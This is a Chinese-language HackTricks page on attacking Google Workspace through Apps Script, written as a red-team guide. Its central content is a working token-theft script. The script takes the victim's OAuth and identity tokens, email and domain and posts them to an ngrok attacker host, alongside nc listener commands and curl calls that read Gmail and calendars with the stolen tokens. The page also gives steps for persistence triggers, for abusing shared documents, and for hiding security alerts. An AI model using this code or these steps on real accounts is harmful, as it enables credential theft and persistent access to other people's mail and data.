 # GWS - App Scripts

{% hint style="success" %}
学习并练习AWS黑客技术：<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
学习并练习GCP黑客技术：<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或 **关注**我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* 通过向 [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}

## App Scripts

App Scripts 是**当具有编辑权限的用户访问与 App Script 链接的文档并在接受 OAuth 提示后触发的代码**，也可以设置为**由 App Script 的所有者每隔一段时间执行一次**（持久性）。

### 创建 App Script

有几种创建 App Script 的方法，尽管最常见的方法是**从 Google 文档（任何类型）**和作为**独立项目**创建：

<details>

<summary>从 Google 文档、表格或幻灯片创建容器绑定项目</summary>

1. 打开文档文档、表格或幻灯片演示文稿。
2. 点击 **扩展** > **Google Apps Script**。
3. 在脚本编辑器中，点击 **无标题项目**。
4. 给项目命名，然后点击 **重命名**。

</details>

<details>

<summary>创建独立项目</summary>

要从 Apps Script 创建独立项目：

1. 转到 [`script.google.com`](https://script.google.com/)。
2. 点击 **新项目**。
3. 在脚本编辑器中，点击 **无标题项目**。
4. 给项目命名，然后点击 **重命名**。

</details>

<details>

<summary>从 Google 云端硬盘创建独立项目</summary>

1. 打开[Google 云端硬盘](https://drive.google.com/)。
2. 点击 **新建** > **更多** > **Google Apps Script**。

</details>

<details>

<summary>从 Google 表单创建容器绑定项目</summary>

1. 在 Google 表单中打开一个表单。
2. 点击 更多 more\_vert > **脚本编辑器**。
3. 在脚本编辑器中，点击 **无标题项目**。
4. 给项目命名，然后点击 **重命名**。

</details>

<details>

<summary>使用 clasp 命令行工具创建独立项目</summary>

`clasp` 是一个命令行工具，允许您从终端创建、拉取/推送和部署 Apps Script 项目。

查看[使用 `clasp` 进行命令行界面的指南](https://developers.google.com/apps-script/guides/clasp)获取更多详细信息。

</details>

## App Script 场景 <a href="#create-using-clasp" id="create-using-clasp"></a>

### 创建带有 App Script 的 Google 表格

首先创建一个 App Script，我建议在这种情况下创建一个 Google 表格，然后转到 **`扩展 > App Scripts`**，这将为您打开一个**与表格相关联的新 App Script**。

### 泄露令牌

为了授予访问 OAuth 令牌的权限，您需要点击 **`服务 +` 并添加类似的范围**：

* **AdminDirectory**：访问目录的用户和组（如果用户具有足够的权限）
* **Gmail**：访问 Gmail 数据
* **Drive**：访问 Drive 数据
* **Google Sheets API**：使其与触发器一起工作

要自行更改**所需的范围**，您可以转到项目设置并启用：**`在编辑器中显示 "appsscript.json" 清单文件`**。

{% code overflow="wrap" %}
```javascript
function getToken() {
var userEmail = Session.getActiveUser().getEmail();
var domain = userEmail.substring(userEmail.lastIndexOf("@") + 1);
var oauthToken = ScriptApp.getOAuthToken();
var identityToken = ScriptApp.getIdentityToken();

// Data json
data = {
"oauthToken": oauthToken,
"identityToken": identityToken,
"email": userEmail,
"domain": domain
}

// Send data
makePostRequest(data);

// Use the APIs, if you don't even if the have configured them in appscript.json the App script won't ask for permissions

// To ask for AdminDirectory permissions
var pageToken = "";
page = AdminDirectory.Users.list({
domain: domain,  // Use the extracted domain
orderBy: 'givenName',
maxResults: 100,
pageToken: pageToken
});

// To ask for gmail permissions
var threads = GmailApp.getInboxThreads(0, 10);

// To ask for drive permissions
var files = DriveApp.getFiles();
}


function makePostRequest(data) {
var url = 'http://5.tcp.eu.ngrok.io:12027';

var options = {
'method' : 'post',
'contentType': 'application/json',
'payload' : JSON.stringify(data)
};

try {
UrlFetchApp.fetch(url, options);
} catch (e) {
Logger.log("Error making POST request: " + e.toString());
}
}
```
{% endcode %}

要捕获请求，您只需运行：
```bash
ngrok tcp 4444
nc -lv 4444 #macOS
```
```markdown
执行App脚本所请求的权限：

<figure><img src="../../../.gitbook/assets/image (334).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
由于进行外部请求，OAuth提示框还会**请求权限以访问外部端点**。
{% endhint %}

### 创建触发器

一旦阅读了App，点击**⏰ 触发器**创建一个触发器。在**函数**中选择**`getToken`**，在部署中运行选择**`Head`**，在事件源中选择**`From spreadsheet`**，事件类型选择**`On open`**或**`On edit`**（根据您的需求），然后保存。

请注意，如果要调试某些内容，可以在**执行选项卡中检查App脚本的运行**。

### 共享

为了**触发****App脚本**，受害者需要连接到**编辑访问权限**。

{% hint style="success" %}
用于执行**App脚本**的**令牌**将是**触发器创建者的令牌**，即使其他用户以编辑身份打开文件。
{% endhint %}

### 滥用与我共享的文档

{% hint style="danger" %}
如果有人**与您共享了一个包含App脚本和使用App脚本Head的触发器**的文档，您可以修改App脚本代码（例如添加窃取令牌功能），访问它，**App脚本将以与与您共享文档的用户权限相同的权限执行**！（请注意，所有者的OAuth令牌将具有在创建触发器时给定的访问范围）。

**将向脚本的创建者发送通知，指示有人修改了脚本**（考虑使用gmail权限生成过滤器以防止警报？）
{% endhint %}

{% hint style="success" %}
如果**攻击者修改了App脚本的范围**，更新**不会应用**到文档，直到创建具有更改的**新触发器**。因此，攻击者将无法使用比他在创建触发器时设置的范围更多的权限窃取所有者的创建者令牌。
{% endhint %}

### 复制而非共享

当您创建一个共享文档的链接时，会创建类似于以下链接：`https://docs.google.com/spreadsheets/d/1i5[...]aIUD/edit`\
如果您将结尾的**"/edit"**更改为**"/copy"**，而不是访问它，谷歌会询问您是否要**生成文档的副本**：

<figure><img src="../../../.gitbook/assets/image (335).png" alt=""><figcaption></figcaption></figure>

如果用户复制并访问它，**文档的内容和App脚本都将被复制**，但**触发器不会**，因此**不会执行任何操作**。

### 作为Web应用程序共享

请注意，也可以将**App脚本**作为Web应用程序**共享**（在App脚本的编辑器中，部署为Web应用程序），但会出现如下警报：

<figure><img src="../../../.gitbook/assets/image (337).png" alt=""><figcaption></figcaption></figure>

接着是**典型的OAuth提示**，要求所需的权限。

### 测试

您可以测试收集到的令牌以列出电子邮件：

{% code overflow="wrap" %}
```
```bash
curl -X GET "https://www.googleapis.com/gmail/v1/users/<user@email>/messages" \
-H "Authorization: Bearer <token>"
```
{% endcode %}

列出用户的日历：
```bash
curl -H "Authorization: Bearer $OAUTH_TOKEN" \
-H "Accept: application/json" \
"https://www.googleapis.com/calendar/v3/users/me/calendarList"
```
## 应用脚本作为持久性

一种持久性的选择是**创建一个文档并添加一个触发器来调用`getToken`函数，并与攻击者共享文档，这样每次攻击者打开文件时就会窃取受害者的令牌。**

还可以创建一个应用脚本，并设置它每隔一段时间触发一次（比如每分钟、每小时、每天...）。一个已经**获取了凭据或受害者会话的攻击者可以设置一个应用脚本定时触发器，每天泄露一个非常特权的OAuth令牌**：

只需创建一个应用脚本，转到触发器，点击添加触发器，选择事件源为时间驱动，并选择最适合您的选项：

<figure><img src="../../../.gitbook/assets/image (336).png" alt=""><figcaption></figcaption></figure>

{% hint style="danger" %}
这将创建一个安全警报电子邮件和一个推送消息到您的手机，提醒您有关此事。
{% endhint %}

### 共享文档未经验证提示绕过

此外，如果有人与您共享了一个具有**编辑访问权限**的文档，您可以在文档内生成**应用脚本**，而文档的**所有者（创建者）将成为应用脚本的所有者**。

{% hint style="warning" %}
这意味着，文档的**创建者将被视为任何拥有编辑访问权限的人在其中创建的任何应用脚本的创建者**。

这也意味着，**应用脚本将受到文档创建者的 Workspace 环境的信任**。
{% endhint %}

{% hint style="danger" %}
这也意味着，如果**应用脚本已经存在**并且人们已经**授予了访问权限**，任何具有文档上**编辑权限**的人都可以**修改它并滥用该访问权限**。\
要滥用此功能，您还需要人们触发应用脚本。一个巧妙的技巧是**将脚本发布为 Web 应用程序**。当已经**授予应用脚本访问权限**的**人们**访问网页时，他们将**触发应用脚本**（这也适用于使用`<img>`标签）。
{% endhint %}

{% hint style="success" %}
学习并实践 AWS 黑客技术：<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
学习并实践 GCP 黑客技术：<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或在 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** 上关注我们**。
* 通过向 [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
